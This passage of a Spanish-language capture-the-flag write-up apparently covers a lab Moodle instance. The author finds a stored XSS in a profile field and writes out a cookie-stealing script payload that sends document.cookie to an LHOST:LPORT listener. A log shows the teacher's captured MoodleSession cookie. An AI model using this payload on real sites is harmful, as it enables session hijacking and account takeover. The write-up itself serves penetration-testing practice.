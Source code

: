 ![image](https://user-images.githubusercontent.com/67548295/133827012-024d32c8-7531-4ee2-8465-c0340a0f6def.png)

![image](https://user-images.githubusercontent.com/67548295/133827143-a1182e1b-8ead-4627-8fbc-494ec8b979d0.png)

Ahí esta la configuración que nos pide el profesor.

Al ser un campo donde puedo meter **cualquier dato**, puedo probar a ver si es vulnerable a [XSS](https://jorgesaavedra.wordpress.com/2007/07/26/%C2%BFque-es-xss/){:target="\_blank"}{:rel="noopener nofollow"} con una simple 'string' de prueba:

![image](https://user-images.githubusercontent.com/67548295/133827596-0790ba28-39c6-46c2-94c8-207097be8328.png)

Bien, si el campo no está bien **sanitizado**, entonces me debería mostrar una **ventana emergente** con el mensaje 'test' si guardo los cambios y refresco la página.

Veamos si es vulnerable:

![image](https://user-images.githubusercontent.com/67548295/133827851-395ecc42-62c2-46d6-a053-d1502bc5daf1.png)

Y sí, es vulnerable.

Ahora, ¿Que puedo hacer con esto?

Si recordamos, el profesor dijo en su post que iba a estar **revisando** este ajuste en todos sus alumnos, si ahora mismo el profesor mira mi perfil, le estará saliendo una **ventana emergente** como a mí.

Con esto se me ocurre diseñar un **payload** especifico para **secuestrar la cookie del profesor** y poder iniciar sesión como el profesor.

Un payload como este nos serviría: `<script>location.href = 'http://LHOST:LPORT/?cookie='+document.cookie;</script>`. Reemplazando los campos con nuestra **IP local** y un **puerto**, si nos ponemos en escucha, **recibiremos la cookie del profesor**.

Probemos a hacer esto:

![image](https://user-images.githubusercontent.com/67548295/133828737-2cc8af58-4eeb-48b3-9757-b0bbf9c67125.png)

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $authbind python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Bien, si guardamos cambios en el perfil, en cuestión de unos minutos deberiamos recibir una petición en nuestro pequeño servidor montado con python con la cookie del profesor:

```
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $authbind python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.234 - - [17/Sep/2021 18:23:37] "GET /?cookie=MoodleSession=vge968dmn227br8qpam1s7nt29 HTTP/1.1" 200 -
10.10.10.234 - - [17/Sep/2021 18:23:37] "GET /?cookie=MoodleSession=vge968dmn227br8qpam1s7nt29 HTTP/1.1" 200 -
```
¡Ha funcionado!
